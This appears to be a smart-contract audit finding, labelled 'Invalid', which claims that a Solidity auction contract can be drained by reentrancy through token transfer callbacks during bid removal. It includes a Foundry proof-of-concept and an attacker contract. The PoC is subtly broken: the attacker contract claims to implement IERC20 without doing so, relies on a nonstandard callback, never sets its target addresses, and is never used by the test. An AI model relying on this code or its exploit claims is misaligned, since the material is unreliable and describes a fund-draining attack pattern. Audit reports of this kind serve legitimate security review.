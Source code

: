 Salty Concrete Gecko

Invalid

# Reentrancy in removeExcessBids() and _removeBid()

### Summary

The lack of a reentrancy guard will cause potential loss of funds for bidders as an attacker will reenter the contract through token transfer callbacks in removeExcessBids() and _removeBid().

### Root Cause

In Auction.sol:250, and Auction.sol:303 the IERC20(buyCouponToken).safeTransfer is called before updating the bids mapping, and the currentCouponAmount, this enables a potential reentrancy if the token has a malicious callback.

### Internal Pre-conditions



A malicious contract needs to bid in the auction.

The malicious contract needs to implement a transfer callback that calls claimRefund or claimBid.

The malicious bid must be a bid that has been added to the auction.

The total of the currentCouponAmount must be greater than totalBuyCouponAmount.

### External Pre-conditions

None

### Attack Path

A malicious user places a bid that will be removed by removeExcessBids().

The removeExcessBids() calls _removeBid() which tries to refund part of the bid.

Inside the IERC20(buyCouponToken).safeTransfer callback, the malicious contract calls claimRefund, and before the bids mapping is updated, it reenters the claimRefund.

The claimRefund() claims the same bid again, getting a refund twice.

The rest of the transaction continues removing and updating the auction data

### Impact

Bidders can lose funds due to the attacker claiming the same bid multiple times, due to the reentrancy. The attacker will gain the extra tokens.

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import {Auction} from "../src/Auction.sol";
import {Token} from "../test/mocks/Token.sol";

contract ReentrancyTest is Test {
    Auction public auction;
    Token public buyToken;
    Token public sellToken;
    address attacker;
    address deployer;
    uint256  totalBuyCouponAmount;
    uint256  endTime;
    uint256  maxBids;
     uint256 poolSaleLimit;


    function setUp() public {
      deployer = address(this);
        buyToken = new Token("Buy Token", "BUY", false);
        sellToken = new Token("Sell Token", "SELL", false);
        attacker = address(new AttackerContract());
        totalBuyCouponAmount = 10000;
        endTime = block.timestamp + 1000;
        maxBids = 10;
        poolSaleLimit = 10000; // 100%

        auction = new Auction();
        auction.initialize(
            address(buyToken),
            address(sellToken),
            totalBuyCouponAmount,
            endTime,
            maxBids,
            deployer,
            poolSaleLimit
        );


         buyToken.mint(deployer, 10000000);
         buyToken.mint(attacker, 10000000);
         sellToken.mint(deployer, 10000000);
        buyToken.approve(address(auction), type(uint256).max);
    }

    function testReentrancy() public {
      uint256 initialAttackerBalance = buyToken.balanceOf(attacker);
      buyToken.approve(address(auction), type(uint256).max);

        vm.startPrank(attacker);
            auction.bid(1000, 5000);
            auction.bid(1000, 3000);
         vm.stopPrank();

        // Attacker bid with reentrancy
        buyToken.approve(address(auction), type(uint256).max);
        vm.startPrank(attacker);
            auction.bid(1000, 2000);
        vm.stopPrank();

        assertGt(buyToken.balanceOf(attacker), initialAttackerBalance);

    }
}

contract AttackerContract is IERC20 {

  address public auction;
  address public buyToken;
  uint256 public bidIndex;


  function onERC20Transfer(address sender, address recipient, uint256 amount) external {
     if (msg.sender == buyToken && recipient == address(this) && amount > 0 ) {
      Auction(auction).claimRefund(bidIndex);
      }
  }

  function bid(address _buyToken, address _auction, uint256 _bidIndex, uint256 _buyAmount, uint256 _sellAmount) external  {
    buyToken = _buyToken;
    auction = _auction;
    bidIndex = _bidIndex;
    IERC20(buyToken).transferFrom(msg.sender, address(this), _sellAmount );
      Auction(_auction).bid(_buyAmount, _sellAmount);
  }
}

### Mitigation

Implement a reentrancy guard pattern using OpenZeppelin's ReentrancyGuard or by updating the state variable before transferring tokens.